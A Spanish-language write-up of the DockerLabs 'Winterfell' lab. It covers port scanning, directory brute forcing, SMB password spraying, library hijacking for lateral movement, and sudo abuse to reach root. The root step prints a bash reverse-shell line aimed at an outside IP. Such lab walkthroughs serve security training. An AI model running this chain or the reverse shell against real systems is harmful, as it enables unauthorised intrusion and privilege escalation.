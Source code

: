 ```yaml
---
title: Winterfell - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Zunderrub        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d02bd468-5cb4-4664-ac53-54895be6a3e6)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `139` (NetBIOS)
- `445` (SMB)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,139,445 -sCV 172.17.0.2 -oG targeted 
```
![image](https://github.com/user-attachments/assets/5a19181c-9271-406b-b7ba-72e6e97392bc)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web con temática de Juego de Tronos.

![image](https://github.com/user-attachments/assets/42605eb6-89ea-404a-8f13-81905647e102)

No vemos nada interesante, pero nos quedaremos con este mensaje por si resulta imprensidible para averiguar como acceder.

` -- Jon: Tengo que conseguir que Arya lleve el mensaje a Daenerys para que nos mande su apoyo y el de sus dragones` 

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

 ![image](https://github.com/user-attachments/assets/80335fa0-eb83-4e74-a7c4-a10d96e1e2fa)

Descubrimos `/dragon`, donde accedemos a` EpisodiosT1`. Utilizaremos los nombres de los episodios como posibles contraseñas.

![image](https://github.com/user-attachments/assets/eb33de46-2ffb-43a3-938d-139862f7374b)

# Fuerza Bruta en SMB

Generamos un archivo `episodios.txt` con los nombres de los episodios y usamos `crackmapexec` para realizar fuerza bruta:

![image](https://github.com/user-attachments/assets/0936c97f-7489-45af-bbf3-5c8bf5ecaf8b)

```bash
crackmapexec smb 172.17.0.2 -u 'jon' -p episodios.txt 
```
![image](https://github.com/user-attachments/assets/4cc1418f-9bc3-4ebb-b877-1107be74268a)

Vemos el usuario "`jon`" con contraseña "`seacercaelinvierno`", ahora on `smbmap`, identificamos recursos compartidos:.

```bash
smbmap -u 'jon' -p 'seacercaelinvierno' -H 172.17.0.2
```
![image](https://github.com/user-attachments/assets/c94705f1-1e80-4316-98c9-7eec954dd3e4)

Accedemos a la carpeta `shared` con `smbclient` y descargamos `proteccion_del_reino`:

```bash
smbclient //172.17.0.2/shared -U 'jon'
```

![image](https://github.com/user-attachments/assets/f1dbbc72-4032-4549-af13-d7b1a0f8a684)

Al abrir el mesajes vemos que contiene lo siguiente 

```txt
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```
Desciframos la contraseña en Base64:

```bash
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
```

Nos devuelve la contraseña `hijodelanister`.

# Acceso ssh

Conectamos al servicio **SSH** como `jon` usando la contraseña descifrada:

![image](https://github.com/user-attachments/assets/e807bdb7-6485-4c15-b64c-384445718536)

# Escalada de privilegios 

## Usuario aria

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `python3` como `aria` en `.mensaje.py`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/64e7557c-d1f4-4a4a-9e21-03eef79bd91e)

Viendo el contenido de el script se están importando dos librerías pero no tienen su ruta absoluta por lo que se podría acontecer un `Library Hijacking`.

![image](https://github.com/user-attachments/assets/e8410883-92a0-469d-8d0f-49c418867e0e)

Creamos un archivo con el nombre de una de las librerías usadas por el script:

![image](https://github.com/user-attachments/assets/cb6628ac-2b09-4993-98ed-f7fc52b522e7)

```bash
import os
os.system("/bin/bash")
```
Ejecutamos el script:
```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```
Ahora somos `aria`.

![image](https://github.com/user-attachments/assets/4b480cb2-d5bb-4a6b-ae8c-59aecba1732b)

## Usuario daenerys

Volvemos a ejecutra `sudo -l`, notamos que tiene permisos para ejecutar `cat` y `ls` como `daenerys`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/fd6b8a89-e0ad-4e5c-9e60-a0921eeafb91)

Exploramos el directorio y encontramos un mensaje con la contraseña de daenerys. 

![image](https://github.com/user-attachments/assets/6d77c82d-c1ec-4882-b0a4-4ea67edcb03b)

Usamos SSH para acceder:

![image](https://github.com/user-attachments/assets/38f6d752-190b-4dd4-a40d-9889fae745df)

# Root

Volvemos a ejecutra `sudo -l`, notamos que tiene permisos para ejecutar `bash` como `root` en el archivo `/home/daenerys/.secret/.shell.sh`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/62f3db3c-e1d3-4072-b734-f3bd21fb8acb)

Este es el contenido:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.234.42/443 0>&1
```

Modificamos el contenido del script para obtener una shell como root:

```
#!/bin/bash

bash -p
```

Ejecutamos el script:

![image](https://github.com/user-attachments/assets/79125ec4-9a7c-4e98-ac17-21858edb5295)

Ya somos root

